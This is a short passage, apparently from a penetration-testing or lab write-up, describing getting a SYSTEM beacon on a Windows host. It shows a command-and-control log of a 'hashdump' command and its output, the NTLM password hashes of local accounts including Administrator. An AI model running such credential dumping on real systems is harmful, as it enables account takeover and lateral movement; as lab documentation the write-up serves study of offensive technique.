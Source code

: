 lets get system beacon

![alt text](<../assets/images/10.png>)

or we can use normal way to get system shell

and we got system beacon

![alt text](<../assets/images/11.png>)

    [02/04 19:16:56] beacon> hashdump
    [02/04 19:16:56] [*] Tasked beacon to dump hashes
    [02/04 19:16:57] [+] host called home, sent: 83198 bytes
    [02/04 19:16:59] [+] received password hashes:
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:73db3fdd24bee6eeb5aac7e17e4aba4c:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:a4be65de5834374c1df6b157d6bf8d64:::
